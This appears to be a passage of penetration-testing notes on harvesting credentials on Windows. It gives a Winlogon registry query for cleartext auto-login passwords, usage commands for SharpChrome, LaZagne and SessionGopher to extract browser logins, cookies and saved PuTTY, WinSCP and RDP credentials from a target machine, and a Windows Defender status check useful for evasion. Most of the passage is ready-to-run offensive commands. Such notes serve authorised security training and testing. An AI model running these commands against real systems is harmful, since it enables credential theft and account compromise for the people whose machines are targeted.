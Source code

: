 **Windows Auto-login**

```powershell
# if we found this option enable we can extract cleartext creds
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

### SharpChrome

use to  to retrieve cookies and saved logins from Google Chrome.

**Usage**:

* Download [`SharpChrome`](https://github.com/GhostPack/SharpDPAPI)
*   Run the script in PowerShell:

    ```powershell
    .\SharpChrome.exe logins /unprotect
    ```

### **LaZagne**

retrieve credentials from a wide variety of software. Such software includes web browsers, chat clients, databases, email, memory dumps, various sysadmin tools, and internal password storage mechanisms (i.e., Autologon, Credman, DPAPI, LSA secrets, etc.

**Usage:**

* Download [`LaZagne`](https://github.com/AlessandroZ/LaZagne)
*   Run the script in PowerShell:

    ```powershell
    .\lazagne.exe all
    ```

### **SessionGopher**

We can use it to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials.

Usage:

* Download [SessionGopher](https://github.com/Arvanaghi/SessionGopher)
*   Run the script in PowerShell:

    ```powershell
    Import-Module .\SessionGopher.ps1
    Invoke-SessionGopher -Target WINLPE-SRV01  # target machine name
    ```

***

## AV Enumeration

**Check Windows Defender Status**

```powershell
Get-MpComputerStatus
```
